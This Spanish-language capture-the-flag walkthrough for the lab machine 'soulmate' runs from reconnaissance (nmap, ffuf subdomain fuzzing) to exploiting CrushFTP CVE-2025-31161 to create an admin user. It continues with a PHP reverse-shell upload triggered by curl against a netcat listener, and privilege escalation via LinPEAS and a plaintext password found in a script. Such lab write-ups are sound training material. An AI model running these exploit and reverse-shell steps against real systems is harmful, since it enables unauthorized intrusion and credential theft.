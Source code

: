 ## Reconocimiento
Empezaremos haciendo uso de [[NMAP]] para hacer un reconocimiento inicial
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

Nos encontramos abiertos los puertos `22/ssh` `80/HTTP`
Navegamos al puerto `80` vía web y nos encontramos una web `soulmate.htb` que la añadiremos al `/etc/hosts` junto con la IP correspondiente de la maquina, volvemos a recargar el navegador y ya nos carga la web.

Haremos fuzzing sobre los directorios con [[GOBUSTER]] `gobuster -u http://soulmate.htp` una vez hemos hecho esto y no hemos encontrado nada relevante

Haremos fuzzing de subdominios con [[FFUF]] `ffuf -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" \ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4`
Encontramos un dominio llamado `ftp.soulmate.htb` así que navegamos a el.

Nos encontramos una web de gestión de FTP llamado `CrushFTP`, buscamos en el código fuente y encontramos la versión `11.W.657`, navegamos por internet en búsqueda de vulnerabilidades que haya habido y encontramos el CVE `CVE-2025-31161`
## Explotación
Para poder explotarlo nos descargamos el repositorio `git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161` y ejecutamos el fichero `.py` 
`python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123`

Con esto nos creara un usuario `test::admin123`

Accedemos a la web y en la parte de `Admin` en las opciones de usuario `User Option` nos encontramos diversos usuarios, seleccionamos a `ben` por que es un usuario raso y le cambiamos la contraseña.
Iniciamos sesión como `ben` y subimos una Shell inversa en la carpeta `/webProd`

Usaremos la siguiente Shell `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`
En el archivo tenemos que modificar la IP de escucha y el PUERTO

En la maquina atacante nos ponemos en escucha por ese puerto con [[NETCAT]] con `nc -lnvp 1234`

Ejecutamos la Shell con curl `curl http://soulmate.htb/shell.php`

Y obtendremos una reverse Shell como `ben`

## Escalada de Privilegios
Nos compartimos un `LinPEAS.sh` a la Shell obtenida y lo ejecutamos.

Obtendremos una salida que nos indica que hay un servicio corriendo `/usr/local/lib/erlang_login/start.escript`
Lo examinamos  `cat /usr/local/lib/erlang_login/start.escript`

Vemos que están guardadas las contraseñas del usuario `ben::HouseH0ldings998` accedemos al usuario con `ssh ben@soulmate`

Para la escala a root en el `LinPEAS.sh` encontramos un puerto `2222` abierto en el `localhost` accedemos a el desde el usuario `ben` con `ssh ben@localhost -p 2222`

Obtendremos una Shell de Erlang

